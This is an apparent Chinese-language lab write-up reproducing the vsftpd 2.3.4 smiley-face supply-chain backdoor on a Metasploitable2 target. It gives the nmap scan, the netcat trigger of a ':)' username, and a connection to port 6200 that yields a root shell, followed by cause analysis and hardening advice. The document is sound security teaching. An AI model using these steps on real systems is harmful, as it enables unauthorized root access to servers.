



本次实验主要完成 vsftpd 2.3.4 经典笑脸后门漏洞的完整复现，通过端口探测、手动触发后门、连接后门端口获取最高权限 Shell，理解恶意投毒版本软件带来的安全风险。所有操作均在本地授权靶场环境完成。

<!--more-->

## 一、漏洞背景介绍
vsftpd 是 Linux 平台常用的轻量 FTP 服务，以高安全性著称。但 **vsftpd 2.3.4** 版本曾出现严重安全事件：官方源码包被黑客篡改投毒，内置恶意后门代码。

后门触发规则非常简单：
- 当 FTP 登录用户名包含笑脸字符 `:)`
- 服务端自动监听 **6200 端口**
- 攻击者可直接连接 6200 端口，**无需认证获取 root 权限 Shell**

该漏洞不属于代码漏洞，属于**软件供应链投毒后门**，是网络安全入门经典漏洞案例。

## 二、实验环境与工具
- 攻击机：Kali Linux（自带 nmap、nc）
- 靶机：Metasploitable2
- 靶机 IP：192.168.32.131
- 工具：
  - nmap：端口与服务版本探测
  - nc(NetCat)：网络连接、触发后门、获取 Shell

## 三、实操：资产探测与漏洞确认
首先使用 nmap 对靶机进行端口与服务版本扫描，判断是否存在漏洞版本服务。

扫描命令：
```bash
nmap -sV 192.168.32.131
```
扫描结果：
21 端口开放
服务版本：vsftpd 2.3.4，完全符合笑脸后门漏洞利用条件。

> 注意：仅版本匹配不代表一定存在后门，部分环境是自行编译的纯净 2.3.4，只有被投毒的安装包才带有后门。

## 四、实操：NetCat 手动触发后门

步骤 1：nc 连接 FTP 21 端口
使用 nc 连接靶机 FTP 服务：

```
nc 192.168.32.131 21
```

步骤 2：发送后门触发 Payload
依次输入带笑脸的用户名与任意密码：

```
USER root:)
PASS 123
```

输入完成后终端会卡住无响应，属于正常现象，代表后门已成功启动、后台监听 6200 端口。
>⚠️ 关键注意：当前终端窗口不可关闭，关闭后门端口立即失效。



## 五、实操：连接后门获取 Root Shell

新开终端窗口，连接后门专属 6200 端口：

```
nc 192.168.32.131 6200
```

连接成功后，执行权限查看命令：

```
id
```

成功返回 `uid=0(root)`，代表获取服务器最高 root 权限，可任意执行系统命令。


## 六、漏洞成因分析

vsftpd 2.3.4 当时流传的恶意安装包被篡改，植入后门逻辑；
程序内置字符匹配规则，检测到用户名包含 `:)` 即触发后门；
自动开启 6200 端口裸 Shell，无身份验证、无权限限制；
攻击者只要探测到对应投毒版本，即可直接拿到服务器最高权限。

## 七、漏洞修复与加固方案

- 版本升级：卸载 vsftpd 2.3.4，升级至 2.3.5 及以上官方纯净版本；
- 可信源部署：所有服务软件必须从官方可信渠道下载，校验哈希，杜绝投毒版本；
- 端口访问控制：防火墙限制 21、6200 端口外网访问，尽量不直接公网暴露 FTP 服务；
- 替代协议：优先使用加密 SFTP 替代明文 FTP，规避明文传输与老旧服务风险。

## 八、实验小结

- nmap 可以快速探测内网资产的端口、服务版本，是信息收集阶段核心工具；
- NetCat 作为网络瑞士军刀，可快速建立 TCP 连接、触发后门、获取交互式 Shell；
- vsftpd 笑脸后门这个案例说明：软件供应链安全远比普通程序漏洞更致命；
- 老旧、流传广泛的投毒服务版本绝对不能上线生产环境，极易导致服务器完全沦陷。

> 
> 安全声明：本次所有漏洞复现、端口探测操作仅用于本地授权靶场教学实验，严禁对未授权公网资产进行扫描、探测与渗透攻击。
